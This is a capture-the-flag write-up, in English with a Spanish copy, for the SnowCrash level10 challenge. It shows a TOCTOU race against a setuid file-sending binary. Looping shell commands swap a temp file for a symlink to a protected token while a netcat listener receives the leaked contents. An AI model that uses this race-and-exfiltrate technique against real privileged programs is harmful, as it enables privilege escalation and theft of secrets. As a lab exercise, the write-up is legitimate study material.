 ### LEVEL10 (BONUS)


- Two files with these permissions:    
    ```bash
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token
    ```

- Execute ./level10
    ```bash
    level10@SnowCrash:~$ ./level10
    ./level10 file host
    sends file to host if you have access to it
    ```

- I create a file in tmp and execute on it.
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    level10@SnowCrash:~$ ./level10 /tmp/a
    ./level10 file host
	sends file to host if you have access to it
	level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    Connecting to 192.168.1.36:6969 .. Unable to connect to host 192.168.1.36
    ```

- It seems that `./level10` sends the content of a file to an IP.

- We download the level10 file locally.
    ```bash 
    scp -P 4242 level10@192.168.1.36:/home/user/level10/level10 . 
    ```

- We decompile with Ghidra.

- In the main function, we find:
    ```c
    [...]
    38 printf("Connecting to %s:6969 .. ",__cp)
    [...]
    ```
- The port it expects the connection on is `6969`.

- We use `tmux` on the snow-crash machine.

- Console1:
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ nc -l 6969
    ```
- Then...


- Console1:
    ```bash
    level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    ```

- Console2 output:
    ```bash
    .*( )*.
    HOLA
    ```
- Alright, we know what it does.

- Let's go back to Ghidra.

- We see:
    ```c
    [...]
    36  iVar2 = access((char *)in_stack_00000008[1],4);
    37  if (iVar2 == 0) 
        { ... }
    89  else {
    90    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
    91  }
    [...]
    ```

- It only sends the file if we have permissions on the file.

- But there's a possible attack vector, TOCTOU (Time-of-check to time-to-use).

https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use

https://lucabarile.github.io/Blog/toctou/index.html

- Console1:
    ```bash
    level10@SnowCrash:~$ while true; do ./level10 /tmp/a $(hostname -I); done
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ while true; do echo "" > /tmp/a; rm -f /tmp/a; ln -s ~/token /tmp/a; rm -f /tmp/a; done
    ```

- Console3:
    ```bash
    level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v "\( \)"; done
    ```

- We have the password :)

---

### LEVEL10 (BONUS)

- Dos archivos con estos permisos:
    ```bash
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token
    ```

- Ejecuto ./level10
    ```bash
    level10@SnowCrash:~$ ./level10
    ./level10 file host
    sends file to host if you have access to it
    ```

- Creo un archivo en tmp y ejecuto sobre este
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    level10@SnowCrash:~$ ./level10 /tmp/a
    ./level10 file host
	sends file to host if you have access to it
	level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    Connecting to 192.168.1.36:6969 .. Unable to connect to host 192.168.1.36
    ```

- Parece que `./level10` envía el contenido de una archivo a una ip

- Descargamos en local el archivo level10
    ```bash 
    scp -P 4242 level10@192.168.1.36:/home/user/level10/level10 . 

    ```

- Descompilamos con Ghidra

- En el main encontramos:
    ```c
    [...]
    38 printf("Connecting to %s:6969 .. ",__cp)
    [...]
    ```
- El puerto que espera la conexion es el `6969`

- Usamos `tmux` en la maquina snow-crash

- Console1:
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ nc -l 6969
    ```

- Luego...

- Console1:
    ```bash
    level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    ```

- Console2 output:
    ```bash
    .*( )*.
    HOLA
    ```

- Bien, sabemos lo que hace

- Volvemos a Ghidra

- Vemos:
    ```c
    [...]
    36  iVar2 = access((char *)in_stack_00000008[1],4);
    37  if (iVar2 == 0) 
        { ... }
    89  else {
    90    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
    91  }
    [...]
    ```

- Solo envía el archivo si tenemos permisos en el archivo archivo

- Pera hay un posible vector de ataque TOCTOU(Time-of-check to time-to-use)

https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use

https://lucabarile.github.io/Blog/toctou/index.html

- Console1:
    ```bash
    level10@SnowCrash:~$ while true; do ./level10 /tmp/a $(hostname -I); done
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ while true; do echo "" > /tmp/a; rm -f /tmp/a; ln -s ~/token /tmp/a; rm -f /tmp/a; done
    ```

- Console3:
    ```bash
    level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v "\( \)"; done
    ```

- tenemos la pass :)


